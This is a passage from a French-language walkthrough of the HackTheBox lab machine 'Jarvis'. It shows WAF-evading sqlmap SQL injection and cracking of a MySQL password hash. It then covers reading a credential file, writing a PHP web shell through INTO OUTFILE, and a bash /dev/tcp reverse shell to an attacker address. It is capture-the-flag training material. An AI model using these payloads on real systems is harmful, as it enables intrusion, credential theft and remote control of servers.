http://jarvis.htb/room.php?cod=2 AND 1=2
```

La condition `1=2` étant fausse, les informations de la chambre ne sont plus affichées.

Cette différence de comportement montre que la condition ajoutée au paramètre semble être interprétée par le serveur de base de données. 

Le paramètre `cod` présente donc les caractéristiques d’une injection SQL booléenne : le contenu retourné varie selon que la condition ajoutée est vraie ou fausse.

Afin de confirmer cette différence de comportement de manière plus objective, tu compares ensuite la taille des réponses retournées par le serveur avec `curl` et `wc -c` :

```bash
curl -s 'http://jarvis.htb/room.php?cod=2' | wc -c
curl -s 'http://jarvis.htb/room.php?cod=2%20AND%201=1' | wc -c
curl -s 'http://jarvis.htb/room.php?cod=2%20AND%201=2' | wc -c
curl -s 'http://jarvis.htb/room.php?cod=999' | wc -c
```

Les résultats obtenus sont les suivants :

```txt
6131
6131
5916
5916
```

La requête normale avec `cod=2` et celle contenant la condition vraie `AND 1=1` retournent toutes les deux une réponse de `6131` octets. La condition ajoutée ne modifie donc pas le contenu affiché.

À l’inverse, la condition fausse `AND 1=2` retourne une réponse plus courte de `5916` octets. Cette taille est identique à celle obtenue avec `cod=999`, une valeur qui ne correspond à aucune chambre.

Les tailles confirment l’observation visuelle : une condition vraie produit la même réponse que `cod=2`, tandis qu’une condition fausse produit la même réponse qu’une chambre inexistante.

Le serveur semble donc interpréter la condition ajoutée au paramètre `cod`, ce qui justifie maintenant une vérification avec `sqlmap`.

La prochaine étape consiste à utiliser `sqlmap` afin de confirmer automatiquement la vulnérabilité et d’en déterminer plus précisément les caractéristiques.

#### Confirmation de l’injection avec sqlmap

Les vérifications manuelles montrent que le contenu retourné par l’application dépend du résultat vrai ou faux de la condition ajoutée au paramètre `cod`.

Tu utilises maintenant `sqlmap` afin de confirmer automatiquement cette vulnérabilité.

Comme l’énumération a révélé la présence de phpMyAdmin, un environnement MySQL ou MariaDB constitue une hypothèse raisonnable. Tu orientes donc les premiers tests de `sqlmap` vers cette famille de SGBD.

Tu limites également les tests à la technique booléenne déjà observée, tout en réduisant la fréquence des requêtes afin de ne pas déclencher trop rapidement le mécanisme de protection du site :

```bash
sqlmap \
  -u 'http://jarvis.htb/room.php?cod=2' \
  -p cod \
  --dbms=MySQL \
  --technique=B \
  --level=1 \
  --risk=1 \
  --threads=1 \
  --delay=1 \
  --skip-waf \
  --batch \
  --flush-session
```

L’option `-p cod` demande à `sqlmap` de tester uniquement le paramètre `cod`.

L’option `--dbms=MySQL` limite les charges utiles à celles compatibles avec MySQL et MariaDB, tandis que `--technique=B` restreint la recherche aux injections SQL de type booléen.

Les options `--level=1` et `--risk=1` conservent les niveaux de test les plus bas. Elles limitent le nombre de charges utiles testées et évitent les variantes les plus intrusives.

Les options `--threads=1` et `--delay=1` imposent l’utilisation d’un seul thread et ajoutent une seconde d’attente entre les requêtes. Elles permettent ainsi de réduire le risque de bannissement par le mécanisme de protection détecté pendant l’énumération.

L’option `--skip-waf` empêche `sqlmap` d’exécuter son test préalable de détection des pare-feux applicatifs. Ce contrôle s’est révélé particulièrement reconnaissable et déclenchait immédiatement IronWAF. Cette option ne désactive pas le WAF : elle évite seulement ce test préliminaire.

L’option `--batch` accepte automatiquement les réponses par défaut proposées par `sqlmap`.

Enfin, `--flush-session` efface les résultats précédemment enregistrés par l’outil afin de forcer une nouvelle détection.

> **Remarque sur les blocages de `sqlmap`**
>
> Si le mécanisme de protection du site est déclenché, les requêtes peuvent recevoir une réponse `404` pendant environ 90 secondes. Avant de relancer `sqlmap`, vérifie depuis un autre terminal que la page répond de nouveau normalement :
>
> ```bash
> curl -s -o /dev/null \
>   -w 'code=%{http_code} length=%{size_download}\n' \
>   'http://jarvis.htb/room.php?cod=2'
> ```
>
> Pendant le blocage :
>
> ```text
> code=404 length=54
> ```
>
> Réponse normale :
>
> ```text
> code=200 length=6131
> ```
>
> Si `sqlmap` réutilise malgré tout une détection erronée, relance-le avec `--flush-session`.
>
> En dernier recours, supprime uniquement les données enregistrées pour cette cible :
>
> ```bash
> rm -rf ~/.local/share/sqlmap/output/jarvis.htb
> ```
>
> Cette commande supprime également les fichiers déjà récupérés par `sqlmap`. Copie-les auparavant si tu souhaites les conserver.

Malgré la limitation à la technique booléenne, cette première tentative reste perturbée par IronWAF. Plusieurs réponses `404` sont retournées pendant les tests, ce qui empêche `sqlmap` de valider définitivement le point d’injection.

La situation s’améliore lorsque tu remplaces le User-Agent par celui d’un navigateur Firefox sous Windows :

```bash
--user-agent='Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0'
```

Avec ce User-Agent, `sqlmap` observe le comportement attendu pour une injection booléenne :

```text
GET parameter 'cod' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
(with --string="Suite room is perfect")
```

L’outil identifie donc une chaîne caractéristique de la page retournée lorsque la condition injectée est vraie :

```text
Suite room is perfect
```

Cette découverte est importante. `sqlmap` pourra désormais déterminer plus facilement si une condition est vraie ou fausse en vérifiant simplement la présence ou l’absence de cette chaîne dans la réponse HTTP.

La vérification finale reste toutefois interrompue par une réponse `404` d’IronWAF. `sqlmap` recommande alors notamment l’utilisation d’un script tamper comme `space2comment`.

Tu testes cette recommandation :

```bash
sqlmap \
  -u 'http://jarvis.htb/room.php?cod=2' \
  -p cod \
  --dbms=MySQL \
  --technique=B \
  --level=1 \
  --risk=1 \
  --user-agent='Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  --threads=1 \
  --delay=1 \
  --skip-waf \
  --tamper=space2comment \
  --batch \
  --flush-session
```

Le script `space2comment` remplace les espaces présents dans les charges utiles SQL par des commentaires.

Une charge utile conceptuellement proche de :

```sql
cod=2 AND 8851=8851
```

est ainsi transmise sous une forme ressemblant à :

```sql
cod=2/**/AND/**/8851=8851
```

Cette transformation modifie la signature de la requête sans changer son sens pour le serveur MySQL.

Cette fois, `sqlmap` parvient à terminer la vérification et confirme l’injection :

```text
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=2 AND 8851=8851
```

La sortie précise toutefois que le payload présenté ne montre pas les modifications réellement appliquées par le tamper :

```text
changes made by tampering scripts are not included in shown payload content(s)
```

Le script `space2comment` permet donc de confirmer la vulnérabilité. Il reste néanmoins à vérifier s’il est indispensable ou si la chaîne découverte précédemment suffit à stabiliser la détection.

Tu relances alors `sqlmap` sans tamper, mais en lui fournissant explicitement le marqueur de réponse vraie :

```bash
sqlmap \
  -u 'http://jarvis.htb/room.php?cod=2' \
  -p cod \
  --dbms=MySQL \
  --technique=B \
  --string='Suite room is perfect' \
  --level=1 \
  --risk=1 \
  --user-agent='Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  --threads=1 \
  --delay=1 \
  --skip-waf \
  --batch \
  --flush-session
```

L’option `--string='Suite room is perfect'` demande à `sqlmap` de considérer la présence de cette chaîne comme le signe d’une réponse vraie.

Cette fois, l’outil va jusqu’au terme de la vérification sans utiliser de script tamper :

```text
GET parameter 'cod' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
```

Il confirme ensuite définitivement que le paramètre est vulnérable :

```text
GET parameter 'cod' is vulnerable
```

Le point d’injection identifié est le suivant :

```text
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=2 AND 1515=1515
```

La charge utile générée ajoute une égalité toujours vraie :

```text
cod=2 AND 1515=1515
```

L’application continue alors d’afficher les informations de la chambre. Grâce au marqueur fourni avec `--string`, `sqlmap` peut comparer cette réponse aux pages obtenues avec des conditions fausses et confirmer que le contenu retourné dépend bien du résultat de l’expression injectée.

L’outil identifie également le système de gestion de base de données utilisé :

```text
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
```

L’injection SQL du paramètre `cod` est donc confirmée. Il s’agit d’une injection de type **boolean-based blind** sur un serveur MySQL utilisant un fork MariaDB.

Les essais montrent également que le tamper `space2comment` peut faciliter le passage à travers IronWAF, mais qu’il n’est pas indispensable ici. La combinaison suivante suffit à obtenir une détection stable :

```text
User-Agent Firefox Windows
--skip-waf
--string='Suite room is perfect'
```

Le User-Agent Firefox rend les requêtes moins reconnaissables que celles envoyées avec la signature par défaut de `sqlmap`, `--skip-waf` évite le test préalable qui déclenche IronWAF, et `--string` fournit un marqueur fiable pour distinguer les réponses vraies des réponses fausses.

#### Recherche d’une technique d’injection plus efficace

L’injection de type **boolean-based blind** est désormais confirmée et peut être utilisée pour récupérer des informations depuis le serveur MySQL.

Cette technique est toutefois relativement lente. Les données recherchées ne sont pas directement affichées dans la réponse HTTP : `sqlmap` doit les reconstruire caractère par caractère en envoyant de nombreuses conditions vraies ou fausses.

Cette méthode est donc efficace pour confirmer la vulnérabilité, mais elle risque de rendre les prochaines opérations particulièrement longues, notamment lorsqu’il faudra récupérer des identifiants ou lire des fichiers.

Avant de poursuivre l’exploitation, tu vérifies donc si le paramètre `cod` permet également une injection de type **UNION query**.

Lorsqu’elle est exploitable, cette technique permet d’ajouter une seconde requête SQL à celle de l’application et de retourner directement ses résultats dans la page. Elle est généralement beaucoup plus rapide qu’une injection boolean-based blind.

Tu demandes donc à `sqlmap` de rechercher uniquement cette technique :

```bash
sqlmap \
  -u 'http://jarvis.htb/room.php?cod=2' \
  -p cod \
  --dbms=MySQL \
  --technique=U \
  --string='Suite room is perfect' \
  --level=1 \
  --risk=1 \
  --user-agent='Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  --threads=1 \
  --delay=1 \
  --skip-waf \
  --batch \
  --flush-session
```

L’option `--technique=U` limite cette nouvelle détection aux injections SQL de type **UNION query**.

Tu conserves les paramètres qui ont permis de stabiliser la détection précédente face à IronWAF :

```text
--string='Suite room is perfect'
User-Agent Firefox Windows
--skip-waf
```

L’option `--flush-session` est également conservée afin de forcer `sqlmap` à effectuer une nouvelle détection, sans réutiliser automatiquement le point d’injection booléen déjà enregistré.

Voici le résultat :

```bash
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.10.6#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:22:28 /[date]/

[10:22:28] [INFO] flushing session file
[10:22:28] [INFO] testing connection to the target URL
[10:22:29] [INFO] testing if the provided string is within the target URL page content
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=7i2k693g3tn...6cnp5l6as2'). Do you want to use those [Y/n] Y
[10:22:30] [WARNING] heuristic (basic) test shows that GET parameter 'cod' might not be injectable
[10:22:31] [INFO] testing for SQL injection on GET parameter 'cod'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[10:22:31] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[10:22:35] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:22:39] [INFO] target URL appears to have 7 columns in query
[10:22:54] [WARNING] reflective value(s) found and filtering out
[10:22:54] [INFO] GET parameter 'cod' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[10:22:54] [INFO] checking if the injection point on GET parameter 'cod' is a false positive
GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 30 HTTP(s) requests:
---
Parameter: cod (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-9360 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a767871,0x774678765472776a7a626a7076514670776f64626d546b734e707254504a465a54616f66464e4d4b,0x7170767a71),NULL,NULL-- -
---
[10:23:02] [INFO] testing MySQL
[10:23:03] [INFO] confirming MySQL
[10:23:07] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25, PHP
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[10:23:08] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/jarvis.htb'

[*] ending @ 10:23:08 /[date]/
```

La sortie confirme que le paramètre `cod` est également vulnérable à une injection SQL de type **UNION query** :

```text
Parameter: cod (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-9360 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(...),NULL,NULL-- -
```

Pour construire une requête UNION valide, `sqlmap` doit d’abord déterminer le nombre de colonnes retournées par la requête originale.

L’outil constate que la technique `ORDER BY` peut être utilisée pour effectuer cette vérification :

```text
'ORDER BY' technique appears to be usable
```

Il identifie ensuite une requête composée de sept colonnes :

```text
target URL appears to have 7 columns in query
```

Le payload généré respecte donc cette structure :

```sql
UNION ALL SELECT
    NULL,
    NULL,
    NULL,
    NULL,
    <donnée injectée>,
    NULL,
    NULL
```

La valeur contrôlée est placée dans la cinquième colonne, ce qui indique que cette position permet à `sqlmap` de retrouver le résultat injecté dans la réponse HTTP.

La valeur négative utilisée pour le paramètre `cod` :

```text
cod=-9360
```

évite que la première partie de la requête retourne une chambre existante. Le résultat produit par la partie `UNION SELECT` peut ainsi apparaître seul dans la page et être identifié plus facilement.

`sqlmap` termine ensuite le contrôle du faux positif et confirme définitivement la vulnérabilité :

```text
GET parameter 'cod' is vulnerable
```

L’application est donc vulnérable à deux techniques d’injection SQL :

```text
boolean-based blind
UNION query
```

La technique booléenne reste exploitable, mais elle nécessite de reconstruire les données caractère par caractère à l’aide de nombreuses requêtes.

L’injection UNION permet au contraire de retourner directement les résultats dans la réponse HTTP. Elle est donc beaucoup plus rapide et mieux adaptée à la suite de l’exploitation.

Tu conserves désormais cette technique, beaucoup plus rapide que l’injection boolean-based blind.

### Exploitation de l'injection SQLi Union

#### Recherche des mots de passe MySQL

L’injection UNION étant désormais confirmée, tu l’utilises pour rechercher les mots de passe associés aux comptes MySQL accessibles depuis la session vulnérable.

Tu relances `sqlmap` avec l’option `--passwords` :

```bash
sqlmap \
  -u 'http://jarvis.htb/room.php?cod=2' \
  -p cod \
  --dbms=MySQL \
  --technique=U \
  --string='Suite room is perfect' \
  --level=1 \
  --risk=1 \
  --user-agent='Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  --threads=1 \
  --delay=1 \
  --skip-waf \
  --batch \
  --passwords
```

L’option `--passwords` demande à `sqlmap` de récupérer les comptes du SGBD et leurs éventuels mots de passe ou hash d’authentification.

Comme le point d’injection UNION est déjà enregistré dans la session, il n’est plus nécessaire d’utiliser `--flush-session`. `sqlmap` peut réutiliser directement la technique précédemment confirmée.

Voici la réponse :

```bash
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.6#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:34:01 /[date]/

[10:34:01] [INFO] testing connection to the target URL
[10:34:02] [INFO] testing if the provided string is within the target URL page content
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=0io8q7tem4v...9ovuk5t127'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-9360 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a767871,0x774678765472776a7a626a7076514670776f64626d546b734e707254504a465a54616f66464e4d4b,0x7170767a71),NULL,NULL-- -
---
[10:34:02] [INFO] testing MySQL
[10:34:02] [INFO] confirming MySQL
[10:34:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25, PHP
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[10:34:05] [INFO] fetching database users password hashes
[10:34:07] [WARNING] reflective value(s) found and filtering out
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y
[10:34:10] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[10:34:10] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[10:34:10] [INFO] starting dictionary-based cracking (mysql_passwd)
[10:34:10] [INFO] starting 4 processes 
[10:34:12] [INFO] cracked password 'imissyou' for user 'DBadmin'                      
database management system users password hashes:                                     
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou

[10:34:13] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/jarvis.htb'

[*] ending @ 10:34:13 /[date]/
```

La session enregistrée est correctement réutilisée :

```text
sqlmap resumed the following injection point(s) from stored session:
```

`sqlmap` reprend donc directement l’injection UNION précédemment confirmée, sans recommencer toute la détection.

L’outil récupère ensuite les hash associés aux comptes MySQL :

```text
[INFO] fetching database users password hashes
```

Un seul compte est identifié :

```text
DBadmin
```

Le hash récupéré est le suivant :

```text
*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

`sqlmap` reconnaît le format du hash MySQL et propose de lancer une attaque par dictionnaire :

```text
using hash method 'mysql_passwd'
```

Tu choisis le dictionnaire fourni par défaut avec l’outil. Quelques secondes plus tard, le mot de passe est retrouvé :

```text
cracked password 'imissyou' for user 'DBadmin'
```

Le résultat final est donc :

```text
Utilisateur MySQL : DBadmin
Mot de passe       : imissyou
```

L’injection UNION permet ainsi de récupérer rapidement les informations d’authentification du compte MySQL utilisé par l’application.

L’énumération avait également révélé la présence d’un fichier nommé `connection.php`. Dans une application PHP, un fichier portant ce nom est susceptible de contenir les paramètres utilisés pour établir la connexion à la base de données. Il constitue donc une cible intéressante à lire.

#### Lecture du fichier `connection.php`

Tu réutilises maintenant l’injection UNION déjà enregistrée par `sqlmap` et ajoutes l’option `--file-read` :

```bash
sqlmap \
  -u 'http://jarvis.htb/room.php?cod=2' \
  -p cod \
  --dbms=MySQL \
  --technique=U \
  --string='Suite room is perfect' \
  --level=1 \
  --risk=1 \
  --user-agent='Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  --threads=1 \
  --delay=1 \
  --skip-waf \
  --batch \
  --file-read=/var/www/html/connection.php
```

L’option `--file-read` demande à `sqlmap` de lire le fichier indiqué depuis le système de fichiers accessible au serveur de base de données.

Il n’est pas nécessaire d’utiliser `--flush-session`, car `sqlmap` peut réutiliser directement le point d’injection UNION déjà confirmé.

Grâce à cette technique, le contenu du fichier peut être récupéré beaucoup plus rapidement qu’avec l’injection boolean-based blind, puisque les données sont directement retournées dans la réponse HTTP.

Ce qui te donne :

```bash
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.10.6#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:43:24 /[date]/

[10:43:24] [INFO] testing connection to the target URL
[10:43:25] [INFO] testing if the provided string is within the target URL page content
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=9u3bp63kod1...c9dcla8ec7'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-9360 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a767871,0x774678765472776a7a626a7076514670776f64626d546b734e707254504a465a54616f66464e4d4b,0x7170767a71),NULL,NULL-- -
---
[10:43:25] [INFO] testing MySQL
[10:43:25] [INFO] confirming MySQL
[10:43:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25, PHP
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[10:43:28] [INFO] fingerprinting the back-end DBMS operating system
[10:43:29] [WARNING] reflective value(s) found and filtering out
[10:43:29] [INFO] the back-end DBMS operating system is Linux
[10:43:29] [INFO] fetching file: '/var/www/html/connection.php'
do you want confirmation that the remote file '/var/www/html/connection.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[10:43:31] [INFO] the local file '/home/kali/.local/share/sqlmap/output/jarvis.htb/files/_var_www_html_connection.php' and the remote file '/var/www/html/connection.php' have the same size (75 B)
files saved to [1]:
[*] /home/kali/.local/share/sqlmap/output/jarvis.htb/files/_var_www_html_connection.php (same file)

[10:43:31] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/jarvis.htb'

[*] ending @ 10:43:31 /[date]/
```


La session enregistrée est correctement réutilisée :

```text
sqlmap resumed the following injection point(s) from stored session:
```

`sqlmap` reprend donc directement l’injection UNION déjà confirmée, sans recommencer toute la phase de détection.

L’outil tente ensuite de lire le fichier demandé :

```text
[INFO] fetching file: '/var/www/html/connection.php'
```

Quelques secondes plus tard, il confirme que le fichier distant et sa copie locale possèdent exactement la même taille :

```text
the local file '/home/kali/.local/share/sqlmap/output/jarvis.htb/files/_var_www_html_connection.php' and the remote file '/var/www/html/connection.php' have the same size (75 B)
```

La lecture est donc complète. Le fichier est enregistré localement ici :

```text
/home/kali/.local/share/sqlmap/output/jarvis.htb/files/_var_www_html_connection.php
```

Tu peux afficher son contenu avec :

```bash
cat ~/.local/share/sqlmap/output/jarvis.htb/files/_var_www_html_connection.php
```

Le fichier contient les informations suivantes :

```php
<?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>
```

Il confirme donc les paramètres de connexion utilisés par l’application :

```text
Serveur         : 127.0.0.1
Utilisateur     : DBadmin
Mot de passe    : imissyou
Base de données : hotel
```

Le mot de passe `imissyou`, déjà retrouvé par `sqlmap` à partir du hash MySQL, est donc bien celui utilisé par l’application pour se connecter à la base de données.

La technique UNION se montre ici particulièrement efficace : le fichier de `75` octets est récupéré en quelques secondes, alors qu’une extraction en boolean-based blind aurait nécessité de nombreuses requêtes pour reconstruire son contenu caractère par caractère.

Les deux méthodes utilisées permettent donc d’obtenir les mêmes identifiants MySQL :

```text
DBadmin:imissyou
```

Tu pourrais maintenant utiliser `sqlmap` pour tenter d’obtenir directement un shell système avec l’option `--os-shell`.

Cette méthode automatisée serait toutefois moins intéressante d’un point de vue pédagogique, car elle masquerait une partie importante du chemin d’exploitation.

Tu choisis donc une approche plus traditionnelle : réutiliser les identifiants découverts pour te connecter à phpMyAdmin, puis exploiter les fonctionnalités disponibles dans l’interface afin de créer un petit shell PHP et d’obtenir ensuite un reverse shell.

Cette démarche permettra de mieux comprendre comment un accès administratif à la base de données peut être transformé progressivement en exécution de commandes sur le serveur.


### Exploitation de `phpMyAdmin` pour obtenir une exécution de commandes

#### Vérification des privilèges du compte MySQL

Les identifiants récupérés précédemment te permettent de te connecter à l’interface `phpMyAdmin` avec le compte suivant :

```text
DBadmin:imissyou
```

Avant de tenter d’écrire un fichier sur le serveur, tu vérifies précisément les privilèges accordés à ce compte MySQL.

Depuis l’onglet **SQL** de `phpMyAdmin`, tu exécutes la requête suivante :

```sql
SHOW GRANTS;
```


Cette commande affiche les droits attribués au compte utilisé pour la session courante.

La requête retourne le résultat suivant :

```text
GRANT ALL PRIVILEGES ON *.* TO 'DBadmin'@'localhost'
```

Le compte `DBadmin` dispose donc de tous les privilèges sur l’ensemble des bases de données et des tables du serveur MySQL.

Cette configuration confirme qu’il ne s’agit pas d’un simple compte applicatif limité à la base `hotel`. Il possède au contraire des droits administratifs particulièrement étendus.

Ces privilèges peuvent notamment autoriser l’utilisation de fonctions permettant de lire ou d’écrire des fichiers depuis MySQL. Leur exploitation reste toutefois soumise à deux autres conditions :

- la configuration du serveur MySQL ne doit pas interdire l’opération ;
- le compte système qui exécute le service MySQL doit disposer des permissions nécessaires sur le répertoire ciblé.

Le résultat de `SHOW GRANTS` justifie donc de poursuivre les vérifications afin de déterminer si MySQL peut écrire un fichier PHP dans la racine web de l’application.

#### Écriture d’un fichier PHP dans la racine web

Le compte `DBadmin` disposant de privilèges étendus, tu peux maintenant vérifier s’il est possible d’utiliser MySQL pour écrire un fichier dans la racine web de l’application.

Avant d’exécuter la requête, tu sélectionnes la base système `mysql` dans le panneau de gauche de phpMyAdmin. Sans base active, l’interface retourne l’erreur suivante :

```text
#1046 - No database selected
```

Le choix de la base `mysql` sert uniquement à fournir un contexte d’exécution à la requête. Le fichier créé ne dépend d’aucune table de cette base.

Depuis l’onglet **SQL**, tu exécutes ensuite :

```sql
SELECT '<?php if(isset($_GET[''command''])) { system($_GET[''command'']); }?>'
INTO OUTFILE '/var/www/html/shell.php';
```



Les apostrophes entourant `command` sont doublées dans la chaîne SQL afin qu’elles soient correctement écrites dans le fichier PHP.

Le contenu créé dans `shell.php` sera le suivant :

```php
<?php if(isset($_GET['command'])) { system($_GET['command']); }?>
```

Le script vérifie que le paramètre GET `command` est présent. Si c’est le cas, la fonction `system()` exécute la commande reçue et retourne son résultat dans la page.

La clause suivante demande à MySQL d’écrire ce contenu dans la racine web :

```sql
INTO OUTFILE '/var/www/html/shell.php'
```

La réussite de cette opération dépend à la fois des privilèges MySQL du compte `DBadmin`, de la configuration du serveur et des permissions du compte système qui exécute MySQL.

#### Validation de l’exécution du fichier PHP

Le fichier `shell.php` étant maintenant présent dans la racine web, tu vérifies qu’il est accessible depuis le navigateur et qu’il permet bien d’exécuter une commande système.

Le script attend la commande à exécuter dans le paramètre GET `command`. Tu appelles donc la page avec la commande `id` :

```url
http://jarvis.htb/shell.php?command=id
```

La commande `id` affiche l’identité et les groupes du compte système utilisé pour exécuter le processus PHP.

La page retourne un résultat de ce type :

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Cette réponse confirme que le fichier PHP a correctement été écrit dans la racine web et qu’il est interprété par Apache.

Elle démontre également que tu peux désormais exécuter des commandes sur le serveur avec les privilèges du compte :

```text
www-data
```

Tu disposes donc d’un mini shell PHP fonctionnel. Cet accès permet d’exécuter ponctuellement des commandes depuis le navigateur, mais il reste peu pratique pour travailler de manière interactive.

La prochaine étape consiste à l’utiliser pour déclencher un reverse shell vers ta machine Kali.

### Obtention d’un reverse shell

#### Établissement de la connexion

Dans un premier terminal, tu ouvres un listener avec `netcat` :

```bash
nc -lvnp 4444
```

Tu vérifies ensuite l’adresse IP de ton interface VPN :

```bash
ip -br addr show tun0
```

Depuis un second terminal, tu déclenches un reverse shell Bash en remplaçant `10.10.x.x` par cette adresse :

```bash
curl -G \
  --data-urlencode "command=bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'" \
  http://jarvis.htb/shell.php
```

Le listener reçoit alors la connexion :

```text
listening on [any] 4444 ...
connect to [10.10.x.x] from (UNKNOWN) [10.129.x.x] 33926
bash: cannot set terminal process group (663): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/var/www/html$
```

Tu vérifies l’identité du compte utilisé et le répertoire courant :

```bash
whoami
id
pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/var/www/html
```

Le reverse shell est bien établi avec les privilèges de `www-data`, mais il ne dispose pas encore d’un terminal pleinement interactif.

#### Stabilisation du reverse shell

Le reverse shell obtenu reste rudimentaire. Tu appliques donc la procédure classique de stabilisation avec Python :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Tu suspends ensuite le shell avec `Ctrl+Z`, puis, depuis Kali :

```bash
stty raw -echo; fg
```

Après avoir appuyé sur `Entrée`, tu réinitialises le terminal :

```bash
reset
```

Tu indiques `xterm`, puis tu définis la variable correspondante :

```bash
export TERM=xterm
```

Tu peux enfin adapter la taille du terminal :

```bash
stty rows 40 columns 120
```

Le reverse shell est désormais suffisamment stable pour interagir correctement avec les programmes qui demandent une saisie.

La procédure complète est détaillée dans la recette dédiée :



### Recherche d’un passage vers un utilisateur local

Après avoir obtenu un shell en tant que `www-data`, tu examines les répertoires personnels présents sur la machine :

```bash
ls -l /home
```

La sortie révèle notamment le répertoire de l’utilisateur `pepper` :

```text
/home/pepper
```

Tu constates également que le fichier `user.txt` se trouve dans ce répertoire :

```text
/home/pepper/user.txt
```

Le compte `pepper` devient donc une cible logique. Tu dois maintenant rechercher un moyen d’exécuter des commandes avec les privilèges de cet utilisateur.

#### Consultation des permissions sudo de `www-data`

Tu consultes les permissions `sudo` accordées au compte courant :

```bash
sudo -l
```

La commande retourne :

```text
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Cette sortie indique que `www-data` peut exécuter le script suivant avec les privilèges de `pepper`, sans fournir de mot de passe :

```text
/var/www/Admin-Utilities/simpler.py
```

Il faut donc préciser explicitement cet utilisateur lors de l’exécution :

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py
```

Ce script constitue désormais la piste principale pour passer de `www-data` à `pepper`.

#### Analyse du fonctionnement du script `simpler.py`

